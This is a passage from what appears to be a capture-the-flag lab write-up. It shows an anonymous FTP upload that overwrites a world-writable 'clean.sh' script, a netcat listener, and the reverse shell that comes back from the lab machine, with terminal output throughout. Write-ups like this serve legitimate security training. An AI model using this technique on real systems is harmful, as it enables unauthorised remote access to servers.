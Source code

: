 ```bash
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          903 Apr 24 17:38 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
140 bytes sent in 0.00 secs (2.7248 MB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          140 Apr 24 17:38 clean.sh
-rw-rw-r--    1 1000     1000          903 Apr 24 17:38 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> exit
```

> **Note:** Directly `put` the bash script on the server without deleting the copy on the server as it will retain the original permissions of the script else the newly uploaded script would get uploaded with permissions like: `-rw-r--r--` and because of which won't get executed as expected as the `x` would be disabled. Also, as we have logged in as "anonymous" user we can't perform `chmod` to make it executable.

Now, that our modified bash script is uploaded, all we need to do is start a listener on our local machine using the command: `nc -nvlp 4444` and wait for the connection to open up.

After a few seconds, we do get our reverse shell:

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.115.25] 60948
sh: 0: can't access tty; job control turned off
$ 
```

The issue here is that this is a `dumb` shell and to improve it an interactive shell we can use [python-pty-shells](https://github.com/infodox/python-pty-shells).

Checkout the guide on how to get a fully interactive TTY using using "python-pty-shells" over [here](https://0xnirvana.medium.com/gaining-interactive-reverse-shell-w-python-a4bd490735a8).
